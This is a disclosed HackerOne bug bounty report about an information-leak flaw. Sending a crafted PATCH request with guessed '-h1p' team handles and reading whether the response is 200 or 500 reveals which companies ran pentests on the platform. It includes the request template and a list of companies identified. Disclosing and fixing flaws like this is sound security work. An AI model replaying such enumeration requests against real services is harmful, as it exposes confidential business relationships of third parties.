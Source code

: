 # Enumerating HackerOne Pentests

## Report Details
- **Report ID**: 1139541
- **URL**: https://hackerone.com/reports/1139541
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-03-29T06:59:02.236Z
- **Disclosed**: 2021-08-25T03:40:56.987Z

## Reporter
- **Username**: whhackersbr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
## Summary:

An attacker can enumerate companies that performed pentests using the HackerOne platform.

## Steps To Reproduce:

HackerOne pentests usually have an alias ending in `-h1p`.
We will use the HTTP Request below to enumerate pentests (update `X-CSRF-Token`, `Cookie`, and `context[team_handle]`).

```
PATCH /notifications HTTP/1.1
Host: hackerone.com
X-CSRF-Token: *****************
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 124
Cookie: *****************

context%5Bteam_handle%5D=*************-h1p&context%5Bsubtype%5D=structured_scope_change&context%5Btype%5D=team&context%5Bunread%5D=false
```

**Responses:**

HTTP 200 - Pentest exists.
HTTP 500 - Pentest doesn't exist.

███

**Companies that performed pentests using the HackerOne platform:**

Socialchorus
Lookout
Hackerone
LogDNA
Blueboard
Capitalize

**Companies that didn't perform pentests using the HackerOne platform:**

Snapchat
Facebook
Google
SalesForce

## Recommendation:

Don't allow enumeration of programs' aliases.
Add a short random string at the end of a pentests alias (e.g.: `hackerone-h1p-xrfg`).

## Impact

An attacker can enumerate companies that used HackerOne platform to conduct pentests.

## Attachments
No attachments

